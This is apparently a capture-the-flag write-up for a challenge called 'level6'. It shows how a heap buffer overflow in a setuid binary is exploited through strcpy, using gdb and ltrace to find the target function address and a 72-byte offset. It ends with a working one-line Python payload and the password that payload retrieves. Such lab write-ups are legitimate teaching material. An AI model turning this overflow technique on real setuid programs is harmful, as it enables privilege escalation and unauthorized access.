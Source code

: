 # level6

```sh
$> ls -l ~
-rwsr-s---+ 1 level7 users 5274 Mar  6  2016 level6
```

We have to call `n()` to retrieve the password.  
To do that, we can use `strcpy()` to overflow the malloc'ed buffer and change the return address to `n()` instead of `m()`.

```sh
$> gdb -q ./level6
(gdb) i func n
[...]
0x08048454  n
```

To know where to find the return address we'll change, we need to access the buffer. Thanks to `ltrace`, we know the address of the malloc'ed buffer

```sh
$> ltrace ./level
malloc(64) = 0x0804a008
[...]
```

After some tweaks, we find that the return address has an offset of `72 bytes` from the start of the buffer.

That's all we need to create the payload:

```sh
$> ./level6 $(python -c 'print("\x90"*72 + "\x54\x84\x04\x08")')
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```
